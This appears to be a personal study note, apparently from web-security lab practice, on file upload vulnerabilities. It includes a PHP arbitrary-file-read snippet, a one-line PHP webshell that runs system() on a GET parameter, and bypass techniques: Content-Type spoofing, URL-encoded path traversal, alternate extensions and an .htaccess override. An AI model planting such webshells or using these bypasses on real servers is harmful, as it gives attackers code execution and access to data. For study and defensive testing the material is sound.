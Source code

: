# File upload vulnerabilities

To read contents of an arbitrary file:
```Php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Simple webshell:
```PHP
// exploit.php content:
<?php echo system($_GET['command']); ?>

// then do the following request:
GET /example/exploit.php?command=id HTTP/1.1
```

When sending your form inputs the browser will send a post request with Content-Type: application/x-www-form-url-encoded. But this cannot be enough for sending binary data like PDF files, etc. For that, Content-Type should be multipart/form-data.

## Web shell upload via Content-Type restriction bypass
Upload a php file
Just change Content-Type header value to image/jpeg or image/png
Boom!

## Web shell upload via path traversal

We first try to upload the file and see the response:
![test](https://drive.google.com/file/d/10m_voQnpBi0lcyTJM5MsIHxhaUOX96IT/view?usp=sharing)

Now we try directory traversal to see if we can save the file to another directory:
![[Pasted image 20220327214701.png]]
We see that the server prevents our path traversal attempt by removing characters. 

Now we URL encode our input and try again:
![[Pasted image 20220327214828.png]]
BOOM! With a simple URL encode, we can bypass the restriction and save the file to /files directory!

## Insufficient blacklisting of dangerous file types
Sometimes servers block uploading of files with the extension .php, etc.
But we can simply bypass this by changing the extension to .php5, .shtml, etc.

## Overriding server configs
Usually servers have config files in which extensions to be executed are declared.
For a .php file to be executed by a client's request, a developer may add the following to /etc/apache2/apache2.conf:
```
LoadModule php_module /usr/lib/apache2/modules/libphp.so AddType application/x-httpd-php .php
```

Many servers will allow directory specific config files to override or to be added to the global ones. For example, in Apache, directory specific config files are loaded from .htaccess file.
Similarly, IIS server can be configured to do the same via web.config file:
```
<staticContent> <mimeMap fileExtension=".json" mimeType="application/json" /> </staticContent>
```

Let's upload a .htaccess file with our own configuration to make a file with an extension not blocked by the server to be executed as php file.
.htaccess content:
```
AddType application/x-httpd-php .fun
```

Now, if we just change the extension of our php file to .fun, it will not be blocked, and will be uploaded. Then we can call it and have it executed by the server.
